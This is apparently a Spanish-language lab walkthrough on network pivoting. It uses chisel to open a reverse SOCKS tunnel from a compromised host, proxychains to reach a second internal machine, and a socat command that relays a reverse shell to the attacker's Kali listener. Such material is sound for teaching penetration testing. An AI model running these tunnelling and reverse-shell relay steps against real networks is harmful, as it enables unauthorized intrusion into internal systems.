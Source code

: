 En la máquina 2, lo que debemos hacer es enviar el tráfico de esta máquina a la de atacante, y para ello usaremos chisel:
![[Pasted image 20240615204122.png]]

![[Pasted image 20240615204125.png]]

Ahora tenemos que ponernos en la máquina atacante con chisel a modo de servidor:
```bash
./chisel server --reverse -p 1234
```

![[Pasted image 20240615204130.png]]

Y ahora en la máquina 1 ejecutamos el chisel en modo cliente diciendo que pase por el puerto 1234 todo el tráfico remoto:
![[Pasted image 20240615204230.png]]

```bash
./chisel client 10.10.10.12:1234 R:socks
```

![[Pasted image 20240615204236.png]]

Y habremos recibido esta conexión también en la máquina atacante:
![[Pasted image 20240615204240.png]]

En la máquina 2, vamos a crear un servidor con python por el puerto 80, que trataremos de visualizar desde la máquina atacante:
![[Pasted image 20240615204245.png]]

![[Pasted image 20240615204248.png]]

Ahora que tenemos el tunel creado que nos une desde la máquina atacante a la máquina 2, debemos de configurar el proxychain de esta forma:
![[Pasted image 20240615204253.png]]

Al ser la primera máquina que conectamos, tenemos que dejar la primera línea sin comentar y la segunda comentada:
![[Pasted image 20240615204257.png]]

Y al final del todo tenemos que dejar esta línea:
![[Pasted image 20240615204317.png]]

Y en el navegador ponemos el tunel:
![[Pasted image 20240615204320.png]]

De tal forma que desde el navegador llegamos correctamente al puerto 80 de la máquina 2:
![[Pasted image 20240615204326.png]]

Ahora, si queremos llegar a esta máquina desde el terminal, debemos de especificar que queremos que el tráfico pase por el proxychains de la siguiente forma:
![[Pasted image 20240615204344.png]]

No obstante, si queremos llegar a esta máquina entablando una reverse shell, veremos que da error:
![[Pasted image 20240615204353.png]]

Esto error ocurre porque tenemos que habilitar socat en la máquina 1 para que pueda haber comunicación entre la máquina 2 y la atacante, por tanto, para seguir avanzando, tenemos que ejecutar el socat dentro de la máquina 1, de tal forma que diremos que el resto del port forwarding que nos llegue lo envíe a la máquina atacante, por tanto lo descargamos:
![[Pasted image 20240615204410.png]]

![[Pasted image 20240615204415.png]]

Nos compartimos el socat con la máquina 1:
![[Pasted image 20240615204419.png]]

![[Pasted image 20240615204422.png]]

Y ahora ejecutamos socat de esta forma, donde diremos que todo lo que reciba la máquina1 por el puerto 1111 de la interfaz 20.20.20.13 lo envíe a la máquina kali  por el puerto 111, que es donde tendremos netcat esperando conexiones:
```bash
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111
```

![[Pasted image 20240615204429.png]]

![[Pasted image 20240615204434.png]]

Y ahora si con la máquina 2 enviamos la reverse shell, debería de funcionar:

![[Pasted image 20240615204436.png]]


